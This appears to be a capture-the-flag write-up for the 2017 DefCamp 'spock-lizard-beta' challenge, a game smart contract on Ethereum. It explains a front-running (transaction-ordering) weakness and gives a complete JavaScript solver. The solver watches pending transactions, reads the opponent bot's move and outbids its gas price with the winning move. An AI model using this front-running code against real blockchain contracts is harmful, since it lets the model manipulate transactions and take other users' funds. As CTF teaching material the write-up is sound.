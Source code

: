 ## spock-lizard-beta

### Description
I've learned a lot from alpha version and I've come up with some improvements. Let's see how it goes now. Are you strong enough?

The victim: https://dctf.def.camp/finals-2017-lpmjksalfka/DctfChall2.sol
The API: beta.dctf-f1nals-2017.def.camp
Transaction API: https://dctf.def.camp/finals-2017-lpmjksalfka/sample2.html

*PS: I've made a cron to reset blockchain so you won't have to wait too much for minning.*

### Author: 
Andrei

### Stats: 
400 points / 0 solvers

### Solution
Based on the challenge description, you receive two APIs with some functionalities such as:
- get_balance: returns the number of ETH a wallet holds
- new_cold_wallet: create a wallet which can be unlocked by a password
- send_money: send eth to other account
- call_contract: call a function from a smart contract
- get_flag: returns the flag if you solved the problem
- get_victim: returns a smart contract address which is supposed to be the target for the game
- play_the_game: a function that spawns a game between a victim smart contract and another player

Looking at the source code of the DctfChall.sol you can see that the smart contract is bassically a game of *rock, paper, scissor, spock, lizard*. It can be played by two players and you can choose one of the 5 options available (from 1 to 5).

The Winner player is decide based on the **getWinner()** function:
```javascript
	function getWinner(uint8 option1, uint8 option2) internal returns (uint8) {
		if(option1 == option2) {
			return 0;
		}

		if(option1 == 0x1) {
			if(option2 == 0x3 || option2 == 0x5) return 1;
			return 2;
		}

		if(option1 == 0x2) {
			if(option2 == 0x1 || option2 == 0x4) return 1;
			return 2;
		}

		if(option1 == 0x3) {
			if(option2 == 0x2 || option2 == 0x5) return 1;
			return 2;
		}

		if(option1 == 0x4) {
			if(option2 == 0x3 || option2 == 0x1) return 1;
			return 2;
		}

		if(option1 == 0x5) {
			if(option2 == 0x4 || option2 == 0x2) return 1;
			return 2;
		}

		return 0;//should never get here
}
```

The goal is to make the **getFlag()** function to answer with *"this guy should receive the reward"* when is being called by the Admin Bot.

``` javascript
function getFlag() 
	onlyIfIsPro
	public
	returns (string)
	{
		return 'this guy should receive the reward';
	}
    
    modifier onlyIfIsPro() {
    	require(solvedHistory[msg.sender] >= 10 && solvedHistory[msg.sender] == triesHistory[msg.sender]);
    	_;
    }
```
As you can see above, this is going to happen only if you win 10 times in a row but never loose a game.

##### The solution
The idea is similar with previous challenge, we can "subscribe" to all transactions being made on the blockchain against a specific address by using the API available in the **sample.html**. 
```javascript

$(document).ready(function() {
	client = io.connect('http://45.76.94.172:8080');

	/* receive transactions based on web3.eth.subscribe('pendingTransactions') */
	client.on('transaction', function(data) {
		console.log('transaction', data); 
	});

	client.on('connect', function() {
		console.log('connected');
		client.emit('listen_for', mytarget);
	});
});
```
Thus, we **can see** what other player/bot sent to the targetted smart contract and come up with an option that can secure each time our victory. The vulnerability is called [Transaction-Ordering Dependence (TOD) / Front Running](https://consensys.github.io/smart-contract-best-practices/known_attacks/#transaction-ordering-dependence-tod-front-running) and is bassically some sort of Race Condition by knowing what the contract would do based on code logics. 

However, in comparison with last time, we need to send the answer in the same block with the Bot Player. This was supposed to be a "security feature" in comparison with first contract version. 

``` javascript
function choose(uint8 option) 
	onlyPlaying 
	onlyWithBet
	isValidOption(option)
	onlyValidPlayers
	payable
	public {
		if(totalplayers == 0) { //this ensures that we are on the same block
			game_start = block.number;
		} else if(totalplayers == 1) {
			require(game_start == block.number);
		}
        
```
So bassically we need to *know* the answer before the bot player and somehow get executed by the blockchain minning pool before the other player. 

This can be done by using almost the same solution like the previous challenge but with a twist: increase the cost of gas we are willing to pay for minning. This will ensure that, although the bot sent first his work on the block, the minners mined the work based on gas prices.

##### The solver
```html

<html>
<head>

<script src="https://cdn.socket.io/socket.io-1.4.5.js"></script>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>

<script>
var client;
var myaddress  = '0xPLAYER_ADDRESS';
var mypassword = 'password for players wallet';
var mytarget   = '0xVICTIM_WALLET';

var winners = [
	[0,0,0,0,0,0],
	[0,0,2,1,2,1],
	[0,1,0,2,1,2],
	[0,2,1,0,2,1],
	[0,1,2,1,0,2],
	[0,2,1,2,1,0]
];

function getWinner(option1) {
	for(var i=1;i<=5;i++) {
		if(winners[option1][i] == 2) {
			return i;
		}
	}
	return option1; //shouldn't get there
}

$(document).ready(function() {
	client = io.connect('http://45.77.142.124:8080');

	client.on('transaction', function(data) {
		console.log('transaction', data, data.from, myaddress);
		if(data.from.toLowerCase() != myaddress.toLowerCase() && data.input != '0x' && data.input.indexOf('0xf94e349d') !== -1) {
			var option = data.input.slice(-1);
			if(1 <= option && option <= 5) {
				winner_option = getWinner(option);
				console.log('sending winner option for combination: ', option, winner_option);
				$.post('https://beta.dctf-f1nals-2017.def.camp', {
					function:'call_contract',
					abi: '[{"constant":true,"inputs":[],"name":"totalinvested","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[{"name":"","type":"address"}],"name":"solvedHistory","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"bot","outputs":[{"name":"","type":"address"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"totalplayers","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"game_start","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"minbet","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"owner","outputs":[{"name":"","type":"address"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[{"name":"","type":"address"}],"name":"triesHistory","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[],"name":"play","outputs":[{"name":"","type":"uint8"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"player","type":"address"}],"name":"isPlaying","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[],"name":"reset","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"newOwner","type":"address"}],"name":"transferOwnership","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"option","type":"uint8"}],"name":"choose","outputs":[],"payable":true,"stateMutability":"payable","type":"function"},{"constant":false,"inputs":[],"name":"getFlag","outputs":[{"name":"","type":"string"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"inputs":[{"name":"_minbet","type":"uint256"},{"name":"_bot","type":"address"}],"payable":false,"stateMutability":"nonpayable","type":"constructor"},{"payable":true,"stateMutability":"payable","type":"fallback"}]',
					address: mytarget,
					from: myaddress,
					password: mypassword,
					func:'choose',
					params:JSON.stringify([winner_option]),
					value:'10000000000000',
					type:'standard',
					gas:'2000000',
					gasPrice: 1*data.gasPrice+100000 //larger gas price than the bot
				}, function(data) {
					console.log(data);
				});
			}
		} 
	});

	client.on('connect', function() {
		console.log('connected');
		client.emit('listen_for', mytarget);
	});
});
</script>

</head>
<body>
</body>
</html>
```
